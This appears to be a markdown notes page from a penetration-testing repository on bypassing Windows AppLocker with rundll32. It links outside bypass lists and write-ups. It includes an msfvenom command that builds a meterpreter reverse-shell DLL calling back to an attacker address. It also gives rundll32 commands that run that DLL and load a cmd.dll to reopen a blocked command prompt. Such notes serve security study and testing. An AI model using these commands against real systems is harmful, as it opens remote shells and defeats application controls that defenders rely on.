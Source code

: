 My conclusion is that this is not a valid bypass on an up-to-date Windows 10 machine with default AppLocker rules. However, my testing is limited by both time and knowledge and of course this could mean that there is a method of using rundll32 that will bypass AppLocker default rules if someone is creative enough.

https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/

This repo here: https://github.com/api0cradle/UltimateAppLockerByPassList has a huge list of bypasses that can be employed. 

### Video Demonstations
A Youtube video can be see here: 
https://www.youtube.com/watch?v=z04NXAkhI4k

### AppLocker Setup
Microsoft default rules can be used to set it up. This is done in the Group Policy Manager. 

See https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/ as there are GIFs on how to set this up. 



### Using Meterpreter
Metasploit Msfvenom can be used in order to create a custom DLL that will contain a meterpreter payload:

On Attacker machine:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.3 LPORT=44444 -f dll -o pentestlab.dll
```
Then on the victim machine we need to run the rundll32 command: 
```
rundll32 shell32.dll,Control_RunDLL C:\Users\pentestlab.dll
```
This can be done using the Run command. Then a on the acctacker machine they should have a shell. 

https://pentestlab.blog/tag/rundll32/
### Cmd Locked
In Windows systems that have locked the command prompt via an AppLocker rule it is possible to bypass this restriction by injecting a malicious DLL file into a legitimate process. 

Didier Stevens has released a modified version of cmd in the form of a DLL file by using an open source variant obtained from the ReactOS

Since the rundll32 is a trusted Microsoft utility it can be used to load the cmd.dll into a process, execute the code on the DLL and therefore bypass the AppLocker rule and open the command prompt. The following two commands can be executed from the Windows Run:
```
rundll32 C:\cmd.dll,EntryPoint
```
Then: 
```
rundll32 shell32.dll,Control_RunDLL C:\cmd.DLL
```
We should get a cmd prompt open. 
